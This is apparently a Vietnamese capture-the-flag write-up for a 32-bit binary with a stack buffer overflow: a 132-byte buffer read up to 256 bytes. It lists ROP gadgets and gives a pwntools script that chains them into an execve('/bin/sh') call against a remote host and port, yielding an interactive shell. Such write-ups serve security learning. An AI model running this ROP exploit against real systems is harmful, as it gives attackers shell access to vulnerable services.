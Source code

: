 ```
int Vuln()
{
  char v1[132]; // [esp+0h] [ebp-88h] BYREF

  puts("Insert ROP chain here:");
  return read(0, v1, 256);
}
```
Dựa vào đoạn code trên thì có thể thấy được rằng với v1 chỉ có size là 132 nhưng hàm read lại được max là 256 byte điều đó đã xuất hiện lỗi bof rồi.


Sử dụng gdb để phân tích như sau






Với offset từ IDA Pro chúng ta có thể dùng để xác định stack frame gồm những gì 


Từ đó chúng ta chuyển sang phần viết ROP.
  
```
pop eax ; ret
pop edx ; pop ecx ; pop ebx ; ret
/bin/sh
int80
```


Giờ thì dựa vào đoạn ROP trên chúng ta phải viết ra ROP phù hợp với binnary trên, nên sử dụng câu lệnh sau : 



```
from pwn import *
from struct import pack


BIN = "./ROPchain"
HOST = "45.122.249.68" 
PORT = 10002
canary = 0x080d900a
save_base_pointer = 0xffffcff8





pop_eax = 0x080a89e6 #pop eax ; ret
pop_edx = 0x0806e051 #pop edx ; pop ecx ; pop ebx ; ret
bin_sh = 0x080d9068 #/bin/sh
int80 = 0x080495a3


def exploit():
	payload = b"a"*132 + p32(canary) + p32(save_base_pointer) 
	payload += p32(pop_eax) + p32(0xb)
	payload += p32(pop_edx) + p32(0) + p32(0) + p32(bin_sh)
	payload += p32(int80)
	# __breakpoint="""
	# 	b*main+67
	# 	"""
	# gdb.attach(io,__breakpoint)
	io.recvuntil("Insert ROP chain here:")
	io.sendline(payload)
	io.interactive()

```